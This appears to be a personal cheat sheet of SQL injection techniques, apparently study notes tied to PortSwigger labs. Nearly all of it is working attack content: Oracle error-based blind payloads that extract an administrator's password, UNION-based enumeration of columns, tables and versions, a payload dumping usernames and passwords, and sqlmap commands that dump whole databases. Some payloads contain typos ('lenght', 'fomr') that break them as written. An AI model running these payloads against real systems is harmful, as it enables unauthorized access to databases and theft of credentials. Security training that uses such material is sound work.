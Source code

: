 <p>'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM users where username='administrator' and lenght(password)>1) ||'</p>
<p>'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM users where username='administrator' and substr(password,1,1)='a') ||'</p>
<p>Limit output of rows = rownum=1  ---same as Limit 1 for mysql</p>

<p>bruteforce using sql like %</p>


<h4>first step - determine how many fields</h4>
<code>' UNION SELECT null;-- -</code>
<code>' UNION SELECT null, null;-- -</code>
<p>add null until we get no error </p>
<h4>check which field is in the web app</h4>
<code>' UNION SELECT 'asd', 'asd';-- -</code>
<p>field will be determined on where 'asd' will appear on the webapp</p>
<p>you can also check the source code for this</p>
<p>NOTE: CHECK IF DATATYPE ACCEPTED IS STRING OR INTEGER</p>

<h4>query version</h4>
<code>1 union select 1, @@version, 3, 4</code>
<h4>query db</h4>
<code>1 union select 1, database(), 3, 4</code>
<h4>query table_name</h4>
<code>1 union select 1, table_name, 3, 4 fomr information_schema.tables</code>
<h4>query table_name</h4>
<code>1 union select 1, column_name, 3, 4 fomr information_schema.columns</code>
<h4>try to query user()</h4>
<code>' UNION SELECT user(), 'asd';-- -</code>
<h4>1 column available get username and password</h4>
<code>'+UNION+SELECT+NULL,username||'~'||password+FROM+users--</code>

<p>https://portswigger.net/web-security/sql-injection/cheat-sheet</p>


<h2>SQLmap</h2>

<code>sqlmap -u *URL* -p *injection parameter* [options]></code>
<code>sqlmap -u "http://test.site/view.php?id=1" -p id --technique=U</code>

<p>for post parameter testing</p>
<code>sqlmap -u *URL* --data=*POST STRING* -p *PARAMETER* [options]</code>
<code>sqlmap -u "http://test.site/view.php?id=1" --tables</code>
<p>to retreive db name</p>
<code>sqlmap -u "http://test.site/view.php?id=1" --tables</code>
<p>to retreive tables</p>
<code>sqlmap -u "http://test.site/view.php?id=1" --current-db *dbname* -columns</code>
<code>sqlmap -u "http://test.site/view.php?id=1" --current-db *dbname* --dump</code>

<li>db</li>
<li>tables</li>
<li>columns</li>

<code>sqlmap -u "http://test.site/view.php?id=1" -D dbname -T tablename -C contentofcolumntodump --dump</code>
<p>to retrieve contents of columns</p>
